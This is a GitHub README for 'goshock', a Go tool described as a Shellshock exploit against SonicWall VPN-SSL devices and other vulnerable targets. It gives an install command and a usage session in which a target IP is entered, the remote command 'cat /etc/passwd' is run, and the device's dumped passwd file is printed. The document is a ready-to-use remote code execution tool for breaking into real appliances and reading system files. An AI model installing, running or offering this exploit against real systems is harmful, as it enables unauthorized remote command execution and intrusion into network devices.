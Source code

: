 # goshock
SonicWall VPN-SSL Exploit* using Golang ( * and other targets vulnerable to shellshock ).

# Install
```
▶ go get -u -v github.com/gustavorobertux/goshock
```
# Basic Usage
```
▶ goshock

TARGET> x.x.x.x
Linux Shell Command> cat /etc/passwd

root:x:0:0:root:/root:/usr/sbin/cli
bin:x:1:1:bin:/bin:/bin/false
daemon:x:2:2:daemon:/sbin:/bin/false
mail:x:8:12:mail:/var/spool/mail:/bin/false
squid:x:23:23:ftp:/var/spool/squid:/bin/false
ntp:x:38:38::/etc/ntp:/bin/false
sshd:x:74:74:sshd:/var/empty:/bin/false
nobody:x:99:99:Nobody:/home/nobody:/bin/false
snort:x:100:101:ftp:/var/log/snort:/bin/false
logwatch:x:102:102::/var/log/logwatch:/bin/false
dnsmasq:x:103:103::/:/bin/false
cron:x:104:104::/:/bin/false
admin::105:105::/:/usr/sbin/cli
```
# Screenshot
<p align="center"><img src="https://github.com/gustavorobertux/goshock/blob/main/goshock.png" width="40%"></p>

